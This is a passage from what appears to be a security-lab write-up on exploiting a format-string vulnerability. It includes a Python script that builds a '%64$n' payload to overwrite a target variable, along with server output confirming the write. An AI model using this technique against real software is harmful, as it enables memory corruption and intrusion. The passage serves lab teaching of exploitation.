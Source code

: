 To write something to the address of the *target* variable, it is necessary to find its position on the stack, which was accomplished in the **Task 2**, and we verify that by placing an address at the beginning of the format string we can access its address at the stack in the position 64.

Finally, we just need to specify in the format string the position where `%n` will write to. To do that, we can use the `%_$n` at the beginning of the format specifier, where `_` indicates the position of the parameter to format in the parameters list. Since there is no parameters list, we will indicate the position that the *target* variable occupies in the stack, by sending `%64$n` as the format string.

All we needed to do was change the python script to place the address of the *target* variable at the beginning of the format string, plus the format specifier `%64$n`:

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0x080e5068
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
# content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%64$n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

And by executing the python script, we obtain the following result, where we can observe that the value of the target variable changes to `0x00000004`, matching the number of bytes that the *target* address occupies:

``` bash
server-10.9.0.5  | Got a connection from 10.9.0.4
server-10.9.0.5  | Starting format
server-10.9.0.5  | The input buffer's address:    0xffffd0d0
server-10.9.0.5  | The secret message's address:  0x080b4008
server-10.9.0.5  | The target variable's address: 0x080e5068
server-10.9.0.5  | Waiting for user input ......
server-10.9.0.5  | Received 1500 bytes.
server-10.9.0.5  | Frame Pointer (inside myprintf):      0xffffcff8
server-10.9.0.5  | The target variable's value (before): 0x11223344
server-10.9.0.5  | hThe target variable's value (after):  0x00000004
server-10.9.0.5  | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
